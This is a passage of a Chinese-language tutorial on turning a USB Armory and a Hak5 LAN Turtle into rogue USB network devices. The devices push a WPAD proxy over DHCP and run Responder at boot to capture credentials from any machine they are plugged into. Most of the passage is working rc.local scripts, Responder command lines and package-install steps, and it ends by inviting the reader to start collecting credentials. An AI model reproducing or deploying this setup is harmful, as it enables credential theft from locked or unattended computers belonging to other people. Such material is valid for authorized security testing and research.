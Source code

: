 ```
`}`
```

这里唯一的特殊配置是发送“Proxy Config” 选项到DHCP客户端。请注意这一行:

一篇关于WPAD的维基百科文章中提到：“DHCP的优先级高于DNS:如果DHCP提供了WPAD URL, DNS查找将不会执行。“

接下来,我们需要设置自动运行。我们编辑了rc.local文件,让它来做这样的几件事:

1.清理掉所有DHCP租约，并启动DHCP服务器。也许还存在着某种更好的方式,但是因为这台“计算机”被插入和取出得非常频繁,文件在某种程度上可能会损坏，因此我们只是移除并重新添加了它。

2.在一个屏幕会话中启动响应器。这样我们就可以得到屏幕会话的记录，作为Sqlite3数据库和应答器创建的日志文件的备份。

```
/etc/rc.local
#!/bin/sh -e
# Clear leases
rm -f /var/lib/dhcp/dhcpd.leases
touch /var/lib/dhcp/dhcpd.leases
# Start DHCP server
/usr/sbin/dhcpd
# Start Responder
/usr/bin/screen -dmS responder bash -c 'cd /root/responder/; python Responder.py -I usb0 -f -w -r -d -F'
exit 0
```

为了让屏幕会话的日志记录启用(可以让你迅速找出问题),你需要添加一个a .screenrc文件。最重要的部分是:

```
/root/.screenrc
# Logging
deflog on
logfile /root/logs/screenlog_$USER_.%H.%n.%Y%m%d-%0c:%s.%t.log
```

就是这样,现在你应该可以重启USB Armory了,然后开始在任何可以插入USB的地方获取凭证。

Hak5 Turtle

现在，所有的事情几乎都已经完成了,唯一的区别在于opkg是你的软件包管理器:

```
opkg update
opkg install python-openssl screen
```

将符号链接移动到/ tmp /，这样日志会被保留下来

```
rm -rf /overlay/etc/turtle/Responder/logs
/overlay/etc/rc.local文件略有不同
/overlay/etc/rc.local
/etc/init.d/dnsmasq stop
/usr/sbin/screen -dmS responder bash -c 'cd /overlay/etc/turtle/Responder; python Responder.py -I br-lan -f -w -r -d -F'
```

**<br>**
